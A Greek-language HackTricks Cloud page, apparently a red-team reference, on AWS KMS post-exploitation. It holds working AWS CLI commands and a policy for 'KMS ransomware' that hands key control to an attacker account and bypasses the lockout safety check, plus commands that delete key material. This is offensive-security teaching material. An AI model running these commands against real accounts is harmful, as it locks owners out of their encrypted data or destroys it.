 # AWS - KMS Post Exploitation

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## KMS

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Κρυπτογράφηση/Αποκρυπτογράφηση πληροφοριών

{% hint style="success" %}
Σημειώστε ότι αν θέλετε να αποκρυπτογραφήσετε κάποια δεδομένα μέσα σε ένα αρχείο, το αρχείο πρέπει να περιέχει τα δυαδικά δεδομένα, όχι κωδικοποιημένα σε base64.
{% endhint %}

* Χρησιμοποιώντας ένα **συμμετρικό** κλειδί
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Χρησιμοποιώντας ένα **asymmetric** κλειδί:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

Ένας επιτιθέμενος με προνομιακή πρόσβαση στο KMS θα μπορούσε να τροποποιήσει την πολιτική KMS των κλειδιών και **να παραχωρήσει την πρόσβαση στον λογαριασμό του**, αφαιρώντας την πρόσβαση που παραχωρήθηκε στον νόμιμο λογαριασμό.

Έτσι, οι χρήστες του νόμιμου λογαριασμού δεν θα μπορούν να έχουν πρόσβαση σε καμία πληροφορία οποιασδήποτε υπηρεσίας που έχει κρυπτογραφηθεί με αυτά τα κλειδιά, δημιουργώντας ένα εύκολο αλλά αποτελεσματικό ransomware πάνω στον λογαριασμό.

{% hint style="warning" %}
Σημειώστε ότι **τα διαχειριζόμενα από την AWS κλειδιά δεν επηρεάζονται** από αυτήν την επίθεση, μόνο **τα διαχειριζόμενα από τον πελάτη κλειδιά**.

Επίσης, σημειώστε την ανάγκη να χρησιμοποιήσετε την παράμετρο **`--bypass-policy-lockout-safety-check`** (η έλλειψη αυτής της επιλογής στην κονσόλα ιστού καθιστά αυτήν την επίθεση δυνατή μόνο από το CLI).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Σημειώστε ότι αν αλλάξετε αυτή την πολιτική και δώσετε πρόσβαση μόνο σε έναν εξωτερικό λογαριασμό, και στη συνέχεια από αυτόν τον εξωτερικό λογαριασμό προσπαθήσετε να ορίσετε μια νέα πολιτική για **να δώσετε ξανά την πρόσβαση στον αρχικό λογαριασμό, δεν θα μπορείτε**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### Generic KMS Ransomware

#### Global KMS Ransomware

Υπάρχει ένας άλλος τρόπος για να εκτελέσετε ένα παγκόσμιο KMS Ransomware, ο οποίος θα περιλαμβάνει τα εξής βήματα:

* Δημιουργήστε ένα νέο **κλειδί με υλικό κλειδιού** που έχει εισαχθεί από τον επιτιθέμενο
* **Επανακρυπτογραφήστε τα παλαιότερα δεδομένα** που έχουν κρυπτογραφηθεί με την προηγούμενη έκδοση με το νέο.
* **Διαγράψτε το κλειδί KMS**
* Τώρα μόνο ο επιτιθέμενος, που έχει το αρχικό υλικό κλειδιού, θα μπορεί να αποκρυπτογραφήσει τα κρυπτογραφημένα δεδομένα

### Destroy keys
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Σημειώστε ότι η AWS τώρα **αποτρέπει τις προηγούμενες ενέργειες να εκτελούνται από έναν διασυνοριακό λογαριασμό:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
